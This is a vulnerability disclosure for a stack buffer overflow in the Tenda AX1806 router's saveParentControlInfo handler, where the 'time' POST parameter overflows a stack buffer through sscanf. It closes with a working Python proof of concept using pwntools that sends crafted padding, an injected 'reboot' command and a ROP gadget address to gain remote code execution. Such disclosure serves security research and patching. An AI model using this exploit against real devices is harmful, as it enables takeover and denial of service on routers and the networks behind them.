

Affect device: Tenda Router AX1806 v1.0.0.1(https://www.tenda.com.cn/download/detail-3306.html)

Vulnerability Type: Stack overflow

Impact: Remote Code Execution && Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/saveParentControlInfo` page which influences the lastest version of Tenda Router AX1806 v1.0.0.1: https://www.tenda.com.cn/download/detail-3306.html

There is a stack buffer overflow vulnerability in the `saveParentControlInfo` function.

First， this function calls the sub_60BE0 function.



In the sub_60BE0 function, the `v12` variable is directly retrieved from the http request parameter `time`.


Then `v12` will be splice to stack by function sscanf without any security check, which causes stack overflow.

So by POSTing the page `/goform/saveParentControlInfo` with proper `time`, the attacker can easily perform a **Remote Code Execution** with carefully crafted overflow data.

# POC

The exploit of **Remote Code Execution**:

```python
from pwn import*
import requests

url = "https://192.168.2.1/goform/saveParentControlInfo"

gadget = 0x37208

time =  b"a" * 0x58
time += b";reboot"
time += b"-"
time += b"b" * 0x34
time += p32(gadget)

r = requests.post(url, data = {"time":time},verify=False )


print(r.content)

```
